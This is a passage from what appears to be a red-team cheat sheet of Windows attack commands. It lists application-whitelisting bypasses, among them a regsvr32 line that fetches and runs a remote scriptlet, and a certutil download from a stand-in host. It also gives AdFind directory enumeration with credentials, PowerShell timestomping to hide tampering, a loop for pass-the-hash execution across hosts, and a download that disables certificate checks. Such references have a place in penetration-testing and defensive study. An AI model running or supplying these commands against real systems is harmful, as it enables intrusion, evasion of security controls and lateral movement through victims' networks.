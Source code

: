 ```
1. cmd.exe /k < script.txt 2. cscript.exe //E:vbscript script.txt 3. Get-Content script.txt | iex 9. Malicious Troubleshooting packs - MSDT.exe Reference: http://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/ Thanks to @nberthaume, @Killswitch_GUI 10. InstallUtil.exe A signed MS binary that loads assemblies and executes - One of the best. Examples here: https://gist.github.com/subTee 11. Regsvcs/Regasm See: https://gist.github.com/subTee/fb09ef511e592e6f7993 These 2 are Excellent. 12. regsvr32.exe https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302 This one is just simply amazing... regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll 13. Msbuild.exe http://subt0x10.blogspot.com/2016/09/bypassing-application-whitelisting.html ``` ## Certutil https://gist.github.com/subTee/7937a8ef07409715f15b84781e180c46 File download ``` certutil -urlcache -split -f http://example.com/file ``` ## Active Directory Enumeration ### Adfind www.joeware.net/freetools/tools/adfind/ ``` AdFind.exe -u account@domain.com -up password -h 10.4.128.40:389 -b dc=domain,dc=com -f "objectcategory=computer" > domain_computers.txt

AdFind.exe -u account@domain.com -up password -h 10.4.128.40:389 -b dc=domain,dc=com -f "objectcategory=computer" distinguishedName dNSHostName description whenchanged operatingSystem operatingSystemVersion > domain_computers_light.txt

AdFind.exe -u account@domain.com -up pass -h 10.4.128.40:389 -b dc=domain,dc=com -f "objectcategory=user" samaccountname description pwdlastset orclcommonattribute > domain_users_light.txt
```

## Powershell

List help for cmdlet: `Get-Help [cmdlet] -full`

List available properties and methods: `Get-Member`

For-each loop: `ForEach-Object { $_ }`

Search for string (like grep): `Select-String -path [file] -pattern [string]`

Timestomp

    $file=(gi c:file.exe);
    $date='01/03/2009 12:12 pm';
    $file.LastWriteTime=$date;
    $file.LastAccessTime=$date;
    $file.CreationTime=$date

Show last system boot time

    Get-WmiObject win32_operatingsystem | select csname, @{LABEL='LastBootUpTime'; EXPRESSION={$_.ConverttoDateTime($_.lastbootuptime)}}

Wrap binary execution in a powershell loop

    powershell foreach ($target in (get-content c:usersusernameappdatalocaltemphosts_da_loggedin_unique.txt)) { "[*] $Target:"; (c:programdatasd.exe ./administrator@$target -hashes aad3b435b51404eeaad3b435b51404ee:a4bab1c7d4bef62d4c22043ddbf1312c) }`

Download a file

    [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(new-object system.net.webclient).downloadfile("https://www.mydomain.com/file","C:UsersusernameAppDataLocalTempfile.txt")


[1]: /threatexpress/img/pasties.png
[2]: https://www.twitter.com/joevest
[3]: https://www.twitter.com/andrewchiles
[4]: https://www.twitter.com/minis_io
[5]: https://canarytokens.org/generate#
[6]: http://blog.portswigger.net/2017/07/cracking-lens-targeting-https-hidden.html
[7]: https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6
[8]: http://www.exploit-monday.com/2013/04/PersistenceWithPowerShell.html
[9]: https://github.com/subTee/ApplicationWhitelistBypassTechniques/blob/master/TheList.txt
[10]: http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
[11]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf
[12]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf
[13]: https://gist.github.com/HarmJ0y/3328d954607d71362e3c
[14]: https://adsecurity.org/?p=2362
[15]: http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
[16]: https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond